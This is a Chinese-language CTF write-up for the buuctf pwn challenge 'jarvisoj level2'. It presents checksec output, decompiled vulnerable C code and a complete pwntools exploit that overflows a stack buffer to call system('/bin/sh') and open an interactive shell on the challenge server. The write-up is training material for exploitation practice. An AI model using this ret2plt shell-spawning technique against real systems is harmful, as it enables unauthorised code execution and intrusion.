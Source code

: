 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level2
date: 2022-3-21 10:20:02
permalink: /pages/2e1547494524d182
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

漏洞函数vulnerable_function如下

```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

函数表存在system函数

Gadget

```shell
ROPgadget --binary level2 --string "/bin/sh\x00"              
Strings information
============================================================
0x0804a024 : /bin/sh
```

## 思路分析

1. 目前信息:
   - `vulnerable_function`函数可溢出
   - `plt`表内有`system`
   - 程序内有`/bin/sh`字符串
   - No PIE
2. 思路

- 直接溢出到`plt`表内的`system`处，传入`/bin/sh`地址即可

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2/level2'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29484)
elf = ELF(pwnfile)
padding = 0x88+4
bin_sh = 0x0804A024
payload = flat(['a'*padding, elf.plt['system'], 0xdeadbeef, bin_sh])
io.recv()
io.sendline(payload)
io.interactive()
```